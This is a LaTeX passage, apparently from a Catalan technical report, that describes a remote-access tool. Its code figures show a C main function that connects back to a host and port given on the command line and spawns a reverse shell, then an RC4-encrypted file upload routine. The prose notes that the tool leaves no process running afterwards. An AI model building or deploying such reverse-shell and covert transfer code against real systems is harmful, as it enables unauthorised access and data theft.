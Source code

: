 \begin{figure}[h!]
\begin{Verbatim}[commandchars=@\[\]]

@PYaJ[int] @PYaL[main](@PYaJ[int] argc, @PYaJ[char] @PYbe[*]@PYbe[*]argv) {
    @PYay[if] (argc @PYbe[=]@PYbe[=] @PYag[3]){
        @PYaJ[unsigned] @PYaJ[short] port @PYbe[=] atoi(argv@PYZlb[]@PYag[2]@PYZrb[]);
        @PYaJ[char] ipname@PYZlb[]@PYag[64]@PYZrb[];
        @PYaJ[int] sock;
        debug(@PYaB["]@PYaB[Iniciant reverse tty]@PYao[\n]@PYaB["]);
        @PYaJ[unsigned] @PYaJ[long] ip @PYbe[=] resolve(argv@PYZlb[]@PYag[1]@PYZrb[], ipname);
        @PYay[if] (ip @PYbe[=]@PYbe[=] INADDR_NONE) @PYay[return] @PYag[1];
        debug(@PYaB["]@PYaB[Connecting to %s:%d]@PYao[\n]@PYaB["],ipname,port);
        @PYay[if] ((sock @PYbe[=] launcher_rcon(ip, port))) {
            launcher_shell(sock, sock);
            close(sock);
\end{Verbatim}
\caption{Condició per a executar el launcher en mode comanda}
\label{fig:launcher_main}
\end{figure}

A més, aquesta funcionalitat tracta de no deixar cap procés en execució un cop portada a terme l'acció.

\subsection{Transferència de fitxers}

Per a transferir fitxers entre client i servidor, es segueix gairebé el mateix procediment, independentment de si és un enviament o una recepció. \\

\begin{figure}[h!]
\begin{Verbatim}[commandchars=@\[\]]
    rc4_init((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])KEY, @PYay[sizeof](KEY), @PYbe[&]rc4_crypt);

    @PYay[if] ((fd @PYbe[=] open(file, O_RDONLY)) @PYbe[>=] @PYag[0]) {
        size @PYbe[=] lseek(fd, @PYag[0], SEEK_END);
        lseek(fd, @PYag[0], SEEK_SET);
        bytes @PYbe[=] @PYag[0];
        transfered @PYbe[=] @PYag[0];
        printf(@PYaB["]@PYaB[Size: %lu bytes]@PYao[\n]@PYaB["], size);
        @PYay[while] ((bytes @PYbe[=] read(fd, buf, BUFSIZE)) @PYbe[>] @PYag[0]) {
            rc4(buf, bytes, @PYbe[&]rc4_crypt);
            printf(@PYaB["]@PYao[\r]@PYaB[Uploaded: %lu%%]@PYaB["], (transfered@PYbe[/](@PYag[1]@PYbe[+](size@PYbe[/]@PYag[100]))));
        }
        printf(@PYaB["]@PYao[\r]@PYaB[Uploaded: 100%%]@PYao[\n]@PYaB["]);
        printf(@PYaB["]@PYaB[Fitxer %s enviat!]@PYao[\n]@PYaB["], file);
        sleep(@PYag[2]);
    }
\end{Verbatim}
    \caption{Upload d'un fitxer}
    \label{fig:client_client_upload}
\end{figure}

